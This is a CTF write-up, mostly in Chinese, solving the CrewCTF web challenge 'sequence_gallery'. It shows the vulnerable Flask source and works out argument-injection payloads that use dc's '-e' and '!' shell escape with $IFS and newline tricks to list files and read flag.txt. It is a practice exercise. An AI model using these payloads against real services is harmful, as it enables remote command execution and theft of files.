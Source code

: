 ```yaml
---
title: CrewCTF - sequence_gallery
tags: [CTF, CrewCTF, Web]

category: "Security/Practice/CrewCTF/Web"
---
```


# CrewCTF - sequence_gallery
## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)
[dc command in Linux with examples](https://www.geeksforgeeks.org/dc-command-in-linux-with-examples/)
[Linux dc命令](https://deepinout.com/linux-cmd/linux-numerical-computation-cmd/linux-cmd-dc.html)
> dc -h
Usage: dc [OPTION] [file ...]
  -e, --expression=EXPR    evaluate expression
  -f, --file=FILE          evaluate contents of file
  -h, --help               display this help and exit
  -V, --version            output version information and exit
>
>Email bug reports to:  bug-dc@gnu.org .

## Source Code
:::spoiler Source Code
```python!
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)

```
:::

## Recon
這一題看了一下source code，發現他只是用了sequence參數抓取`.dc`檔案，然後用subprocess另外執行，所以dc到底是一個甚麼樣的指令?看了其他網站[^dc_linux_command_eg][^linux_dc_command_zh]，發現它就只是一個calculator，然後他支援自己寫的腳本，所以他就是抓sequence這個get參數，然後做簡單的輸入字串驗證(不能有`flag`和空格)，所以可以想一下能不能用command injection的手法達到RCE，具體來說還是看了CTFTime上的WP[^CTFTime_WP]才知道可以用`!`接shell command，實際測試如下:
```bash!
$ dc -e \!ls
factorial.dc  fibonacchi.dc  flag.txt  main.py  power.dc  templates
```
```python!
$ python
>>> import subprocess
>>> subprocess.run(['dc', "-e !ls Web/sequence_gallery/dist/src"])
factorial.dc  fibonacchi.dc  flag.txt  main.py  power.dc  templates
CompletedProcess(args=['dc', '-e !ls Web/sequence_gallery/dist/src'], returncode=0)
```
兩者的區別是一般的shell需要特別用反斜線在驚嘆號前而在python的interactive mode不需要，所以我們就以python的環境來生成payload
:::warning
用一般的command injection做不出來，我試過`和$但都沒用，因為它是用subprocess去接所以格式不同，不然一般的shell是可以處理這些東西
:::
```python!
>>> subprocess.run(['dc', "`id`"])
dc: Could not open file `id`
CompletedProcess(args=['dc', '`id`'], returncode=0)
>>> subprocess.run(['dc', '"$(id)"'])
dc: Could not open file "$(id)"
CompletedProcess(args=['dc', '"$(id)"'], returncode=0)
```
## Exploit - Command Injection
1. 先測試一般的id能不能顯示
Payload: `-e !id` $\to$ Wrong(不能有空格)
Payloda: `-e%60!id` $\to$ Did not show(這邊試了很久，發現是我們的指令沒有一個換行)
Payload: `-e%60!id%0a` $\to$ Correct(所以其實中間的dummy string可以隨便設定以取代空格但一定要有換行)
2. 所以就可以用其他payload讀flag
    ```bash!
    /?sequence=-e`!ls%0A
    factorial.dc
    fibonacchi.dc
    flag.txt
    main.py
    power.dc
    templates
    '`' (0140) unimplemented 
    /?sequence=-e`!cat$IFS*.txt%0A
    crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}
    '`' (0140) unimplemented 
    ```
    :::info
    最後一個payload必須要是使用$IFS搭配*.txt，不能$IFSf*.txt，這樣會失敗，我想可能是因為字串之間會有衝突吧
    :::
    Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`

3. Trick
用`dc` command執行`10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx`會顯示`DouULikeDC`的字樣，算是作者的小趣味
## Reference
[^CTFTime_WP]:[CTFTime WP](https://ctftime.org/writeup/37413)
[^dc_linux_command_eg]:[dc command in Linux with examples](https://www.geeksforgeeks.org/dc-command-in-linux-with-examples/)
[^linux_dc_command_zh]:[Linux dc命令](https://deepinout.com/linux-cmd/linux-numerical-computation-cmd/linux-cmd-dc.html)